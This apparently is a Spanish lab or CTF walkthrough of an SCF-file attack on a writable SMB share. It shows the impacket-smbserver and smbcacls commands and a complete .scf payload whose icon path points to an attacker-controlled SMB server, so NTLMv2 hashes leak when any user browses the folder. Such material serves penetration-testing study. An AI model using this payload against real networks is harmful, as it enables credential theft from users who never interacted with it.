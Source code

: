 Cuando tenemos una montura de un recurso compartido remoto, y tenemos capacidad de escritura en algún escritorio (confirmando con la herramienta _smbcacls_), podemos crear un archivo malicioso con extension .scf para que, sin interacción del usuario (unicamente es necesario que el directorio sea atravesado), obtengamos el hash NTLMv2 del usuario para poder crackearlo de forma offline.

Para ello lo primero sería mediante el uso de la herramienta _impacket-smbserver_ compartir un recurso a nivel de la network con el nombre de smbFolder:

`impacket-smbserver smbFolder $(pwd) -smb2support`

Una vez esto, vamos a crear el archivo malicioso .scf en la ruta donde tenemos capacidad de escritura (lo comprobamos con smbcacls: `smbcacls "//10.10.10.103/Department Shares" Users/Public | grep "Everyone"`). El archivo tiene la siguiente estructura:

```scf
[Shell]
Command=2
IconFile=\\10.10.14.21\smbFolder\pentestlab.ico
[Taskbar]
Command=ToggleDesktop
```

En el momento que guardemos el archivo, si un usuario entra en el directorio donde lo hemos subido, al cargarse el ícono vamos a recibir el hash NTLMv2 del usuario y vamos a poder crackearlo por fuerza bruta de manera offline.
